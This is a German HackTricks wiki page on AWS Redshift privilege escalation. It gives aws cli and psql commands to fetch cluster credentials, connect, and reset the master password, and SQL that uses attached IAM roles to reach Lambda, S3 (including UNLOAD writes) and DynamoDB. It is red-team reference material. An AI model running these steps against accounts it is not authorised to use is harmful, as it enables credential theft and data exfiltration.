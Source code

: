 # AWS - Redshift Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Redshift

Für weitere Informationen zu RDS siehe:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Mit diesen Berechtigungen können Sie **Informationen über alle Cluster** (einschließlich Name und Cluster-Benutzername) abrufen und **Zugangsdaten** erhalten, um darauf zuzugreifen:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Mit diesen Berechtigungen können Sie **Informationen über alle Cluster** abrufen und **Zugangsdaten** dafür erhalten.\
Beachten Sie, dass der postgres-Benutzer die **Berechtigungen hat, die die IAM-Identität** hat, die verwendet wurde, um die Zugangsdaten zu erhalten.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Es ist möglich, das **Master-Passwort** des internen Postgres (redshift) Benutzers über die aws cli zu **ändern** (ich denke, das sind die Berechtigungen, die du benötigst, aber ich habe sie noch nicht getestet):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

## Zugriff auf externe Dienste

{% hint style="warning" %}
Um auf alle folgenden Ressourcen zuzugreifen, müssen Sie **die zu verwendende Rolle angeben**. Ein Redshift-Cluster **kann eine Liste von AWS-Rollen zugewiesen haben**, die Sie verwenden können, **wenn Sie die ARN kennen**, oder Sie können einfach "**default**" setzen, um die standardmäßig zugewiesene zu verwenden.

Darüber hinaus erlaubt Redshift, wie [**hier erklärt**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), auch das Verketten von Rollen (solange die erste die zweite annehmen kann), um weiteren Zugriff zu erhalten, indem Sie sie einfach mit einem **Komma** trennen: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Wie in [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) erklärt, ist es möglich, **eine Lambda-Funktion von Redshift aus aufzurufen** mit etwas wie:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Wie in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) erklärt, ist es möglich, **in S3-Buckets zu lesen und zu schreiben**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Wie in [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) erklärt, ist es möglich, **Daten von dynamodb zu erhalten**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Die Amazon DynamoDB-Tabelle, die die Daten bereitstellt, muss in derselben AWS-Region wie Ihr Cluster erstellt werden, es sei denn, Sie verwenden die [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) Option, um die AWS-Region anzugeben, in der sich die Amazon DynamoDB-Tabelle befindet.
{% endhint %}

### EMR

Überprüfen Sie [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
